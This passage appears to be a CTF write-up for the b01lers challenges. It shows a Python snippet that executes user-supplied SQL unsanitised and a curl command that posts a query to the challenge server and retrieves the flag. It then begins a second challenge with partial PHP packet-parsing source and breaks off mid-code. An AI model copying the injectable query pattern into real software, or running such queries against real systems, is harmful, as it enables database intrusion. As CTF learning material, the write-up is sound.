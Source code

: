We immediately can spot the injection point at
```python
cursor.execute(query + " LIMIT 20;")
```
Basically we can execute arbitrary MySQL queries on the server.
After some search we can see there are 3 tables *known_isomorphic_algorithms*, *programs* and *to_derezz*.
Each of these tables have the columns *id*, *name*, *status* and *location*
Each table has a lot of apparently random records.
<br>After some fuzzing we find the flag using the query:
```bash
curl -X POST -d "query=SELECT location FROM programs WHERE location LIKE \"%flag%\"-- " http://chal.ctf.b01lers.com:3004/
```

which yields
```html
<!-- ... -->
<div class="row">
    <h3>Query Results:</h3>
    <table class="table">
        <tbody>
            <tr>
                <td>flag{REDACTED}</td>
            </tr>
        </tbody>
    </table>
</div>
<!-- ... -->
```
🏁 __flag{I_fight_for_the_users_and_yori}__{:.spoiler}

---

## Next Gen Networking

> ISO's had information to revolutionize the digital world, they had specs for the next generation network protocol with corruption detection and tamper resistence! Check out version 6.5 here! Also we sent the flag in the first packet to test it out and ensure it's secure!
> http://chal.ctf.b01lers.com:3002

We are given this PHP source code
```php
<?php
    function get_data() {
        if(!isset($_POST["packet"])){
            return "<p>Error: packet not found</p>";
        }

        $raw_packet = $_POST["packet"];
        $packet = json_decode($raw_packet);
        if($packet == null) {
            return "<p>Error: decoding packet</p>";
        }

        if($packet->version != 6.5) {
            return "<p>Error: wrong packet version</p>";
        }

        $calculated_ihl = strlen($packet->version) + strlen(strval($packet->len)) + strlen(strval($packet->ttl)) + strlen(strval($packet->seqno)) + strlen(strval($packet->ackno)) + strlen($packet->algo) + 64;
        $calculated_ihl = $calculated_ihl + strlen(strval($calculated_ihl));
        if($packet->ihl != $calculated_ihl or $packet->ihl > 170) {
            return "<p>Error: wrong header size</p>";
        }
```